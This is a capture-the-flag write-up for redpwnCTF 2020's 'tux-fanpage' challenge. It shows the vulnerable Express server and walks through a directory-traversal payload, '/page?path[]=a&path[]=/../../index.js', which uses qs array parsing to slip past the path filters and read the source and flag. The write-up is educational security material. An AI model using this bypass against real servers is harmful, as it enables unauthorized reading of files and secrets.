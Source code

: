 # tux-fanpage

Author: [roerohan](https://github.com/roerohan)

This challenge exploits a property of the `qs` used package in `express`.

# Requirements

- Basic Javascript and Express.js.

# Source

- https://tux-fanpage.2020.redpwnc.tf/page?path=index.html
- [index.js](./index.js)

# Exploitation

The source code of the server is as follows:

```javascript
const express = require('express')
const path = require('path')
const app = express()

//Don't forget to redact from published source
const flag = '[REDACTED]'

app.get('/', (req, res) => {
    res.redirect('/page?path=index.html')
})

app.get('/page', (req, res) => {

    let path = req.query.path

    //Handle queryless request
    if(!path || !strip(path)){
        res.redirect('/page?path=index.html')
        return
    }
    path = strip(path)

    path = preventTraversal(path)

    res.sendFile(prepare(path), (err) => {
        if(err){
            if (! res.headersSent) {
                try {
                    res.send(strip(req.query.path) + ' not found')
                } catch {
                    res.end()
                }
            }
        }
    })
})

//Prevent directory traversal attack
function preventTraversal(dir){
    if(dir.includes('../')){
        let res = dir.replace('../', '')
        return preventTraversal(res)
    }

    //In case people want to test locally on windows
    if(dir.includes('..\\')){
        let res = dir.replace('..\\', '')
        return preventTraversal(res)
    }
    return dir
}

//Get absolute path from relative path
function prepare(dir){
    return path.resolve('./public/' + dir)
}

//Strip leading characters
function strip(dir){
    const regex = /^[a-z0-9]$/im

    //Remove first character if not alphanumeric
    if(!regex.test(dir[0])){
        if(dir.length > 0){
            return strip(dir.slice(1))
        }
        return ''
    }

    return dir
}

app.listen(3000, () => {
    console.log('listening on 0.0.0.0:3000')
})
```

The `qs` package is used by express to parse the request params. This package can also accept arrays from the request params if they are passed as follows:

```
https://mysite.tld/route?param[]=1&param[]=2
```

This treats `param` as an array `[1,2]`. We can use this property to exploit this websie.
<br />

Upon analysis, we see that the `page` is the accepted from the query, hence passing something like `../index.js` will give us the source code which has the flag. But here's the catch. There are 2 functions which prevent anything of this sort. First, the `strip` function removes characters from the start of the string until it matches the regex `/^[a-z0-9]$/im`. However, if the start of the string matches this regex, it will not check any further. This prevents us from having absolute paths like `/etc/passwd` or paths starting with `../` in the `page` param.
<br />

The second function which we need to bypass is the `preventTraversal` function, which recursively removes all instances of `../` from your string.
<br />

Now, let's analyze what happens if we pass an array as the `page` param.
<br />

First, we encounter the `strip` function.

```javascript
const regex = /^[a-z0-9]$/im

//Remove first character if not alphanumeric
if(!regex.test(dir[0])){
    if(dir.length > 0){
        return strip(dir.slice(1))
    }
    return ''
}

return dir
```

This takes the parameter `dir` (which is `page`, basically), and matches the first index with the regex. However, since `page` and hence `dir` is now an array, it will just check the first element of the array. We want `dir` to be returned as is, so the first element of the array has to match that regex. Our payload so far is:

```
https://tux-fanpage.2020.redpwnc.tf/?page[]=a
```

We get back the same path from the `strip` function, so now we have to bypass the `preventTraversal` function.

```javascript
path = strip(path) // returns same path if path[0]='a'

path = preventTraversal(path)
```

The `preventTraversal` function looks like:

```javascript
function preventTraversal(dir){
    if(dir.includes('../')){
        let res = dir.replace('../', '')
        return preventTraversal(res)
    }

    //In case people want to test locally on windows
    if(dir.includes('..\\')){
        let res = dir.replace('..\\', '')
        return preventTraversal(res)
    }
    return dir
}
```

In case `dir` is a string, it checks if the string has `../` in it, and removes every instance of it, recursively. Now, since `dir` is an array, `dir.includes('../)` will match only if an element of the array is **exactly** `../`. So we are now free to do `../something`, because that does not match `../` exactly. So, we can update our payload:

```
https://tux-fanpage.2020.redpwnc.tf/?page[]=a&page[]=../something
```

Now let's figure out what the `something` is going to be. So, the page is actually loaded in the following code snippet:

```javascript
res.sendFile(prepare(path), (err) => {
    if(err){
        if (! res.headersSent) {
            try {
                res.send(strip(req.query.path) + ' not found')
            } catch {
                res.end()
            }
        }
    }
})
```

The path of the file is obtained using the `prepare` function, let's check that out.

```javascript
function prepare(dir){
    return path.resolve('./public/' + dir)
}
```

Okay, so here's a problem. `dir` is an array, can we add an array to a string? Well, apparently you can, in javascript. 

```javascript
> 'hello'+[1,2,3]
"hello1,2,3"
```

So it just concatenates the comma separated array to the end of the string. That's really useful for this challenge! Now, we have to think of an array of `dir` so that `path.resolve('./public/' + dir)` returns `./index.html`, keeping in mind the previous things we established.

```javascript
> dir = ['a', '/../../index.js']
> './public/' + dir
"./public/a,/../../index.js"
```

When you pass this string to `path.resolve()`, it resolves it to `./index.js` (It does not matter if the directory `a,` does not exist, `path.resolve()` does not care). Great! We've found our payload.

```
https://tux-fanpage.2020.redpwnc.tf/page?path[]=a&path[]=/../../index.js
```

This returns the source code. The flag is:

```
flag{tr4v3rsal_Tim3}
```
